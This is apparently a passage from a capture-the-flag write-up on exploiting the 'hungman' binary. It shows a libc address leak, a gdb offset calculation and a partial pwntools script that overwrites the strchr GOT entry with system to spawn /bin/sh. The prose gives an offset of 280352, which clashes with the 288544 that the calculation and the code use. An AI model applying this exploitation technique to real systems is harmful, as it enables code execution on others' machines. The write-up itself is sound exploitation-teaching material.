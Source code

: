 And when we go into gdb, we can see the offset between the leaked address and the address of `system`

First run the script:
```
$	python recon.py 
```

See the leaked address the script gives us:
```
High score! change name?
The leak is: 0x7f89e0403dc0
```

Look at gdb for the address of system
```
gdb-peda$ p system
$1 = {<text variable, no debug info>} 0x7f89e03bd6a0 <__libc_system>
```

Calculate the difference:
```
>>> 0x7f89e03bd6a0 - 0x7f89e0403dc0
-288544
```

So we can see that if we subtract 280352 from the leaked address, we will have the address of system. Now that we have the address of system, we just need to win the game two more times. One to write over the `strchr` got entry with the address of `system`. The second to execute the overwritten `strchr` function with passing `/bin/sh` to it by setting our new name equal to that. I did not script out winning a second time, but instead choose to just do it manually since it's super easy (just type "jklm"). Here is the code to do that:

```
#import pwntools and start the ELF
from pwn import *
target = process("./hungman")

#Send the first name
name0 = "0"*100
target.sendline(name0)

#Win the game and change the name
print target.recvline()
target.sendline("qwertyuioplkjhgfdsazxcvbnm")
print target.recvuntil("High score! change name?")
target.sendline("y")

#Overwrite the pointer with the new name
name1 = "1"*112 + p64(0x0000006500000320) + p64(0x602038)
target.sendline(name1)

#Store the input of the elf trying to print the player's name and filter out the leaked address
leak = target.recvuntil("Continue?")
leak = leak.replace("Highest player: ", "")
leak = leak.replace(" score: 800", "")
leak = leak.replace("Continue?", "")
leak = leak.replace("\n", "")
leak = u64(leak + "\x00\x00")

#Calculate the address of system
sys_adr = leak - 288544

#Print the leak, and the system address
print "The leak is: " + hex(leak)
print "The address of system is: " + hex(sys_adr)

#Win the game again, and start the name change
```